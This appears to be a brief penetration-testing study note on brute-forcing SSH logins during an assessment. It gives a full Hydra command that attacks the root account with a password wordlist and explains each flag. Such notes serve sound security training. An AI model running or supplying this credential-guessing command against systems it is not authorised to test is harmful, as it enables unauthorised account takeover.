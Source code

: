 <h2> SSH is not always a low hanging fruit </h2>
- From a realistic prospective If we see SSH on an assessment 
  will try to brute force against it. Or use weak or default credentials
- We are going to do that to test Password Strength
- We are going to test if we can go with a weak/default password
- How the blue team performs do they catch us or not 


We are going to use a tool called `Hydra` (i.e. a bruteforce tool) or `MSF console` as we have multiple frameworks for same task.
command : hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.142.129:22 -t 4 -V
where 
-l stands for user that we are going to utilize here.
-P stands for password list.
-t for threads that will limit to 4
-V for verbosity to see the user attempts 



